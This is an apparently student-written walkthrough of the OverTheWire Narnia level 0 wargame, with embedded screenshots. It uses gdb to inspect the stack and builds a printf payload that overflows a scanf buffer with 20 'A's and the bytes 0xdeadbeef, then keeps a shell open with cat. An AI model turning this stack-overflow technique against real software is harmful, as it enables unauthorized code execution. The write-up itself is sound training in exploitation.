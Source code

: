 <img src="./img/Screenshot 2024-09-13 185549.png"></img>
After adding the breakpoint run the program to check it.
Give sample input. And see the how the input is stored in the memory.
```bash
x/20wx $esp
```
This cmd shows the 20 words of data in Hex from extended  stack pointer.
Add ABCD in last four bite to see the format.It the ABCD is written on reverse order which follows little Endian format.
<img src="./img/Screenshot 2024-09-13 191355.png"></img>
We can not give Hex values as input it deducts as a character only. So we have to preprocess it .since it contain 16 byte.And the scanf can have 24 byte we use 24 byte  to overflow the stack to open a shell.
Exit from gdb editor.
```bash
printf "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"|./narnia0
```
<img src="./img/Screenshot 2024-09-13 192839.png"></img>
Since the value is correct but the shell does not open . To keep shell open we can use cat cmd .
```bash
(printf "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde";cat)|./narnia0
```